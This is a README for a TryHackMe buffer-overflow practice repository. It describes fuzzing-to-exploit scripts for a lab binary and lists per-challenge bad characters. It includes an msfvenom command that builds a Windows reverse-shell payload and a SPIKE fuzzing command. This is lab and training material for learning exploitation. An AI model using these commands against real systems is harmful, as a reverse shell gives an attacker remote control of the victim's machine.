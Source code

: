 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final **exploit**

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**

# OVERFLOW 4

**Bad Chars:--> \x00\xa9\xcd\xd4**

# OVERFLOW 5

**Bad Chars:--> \x00\x16\x2f\xf4\xfd**



# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
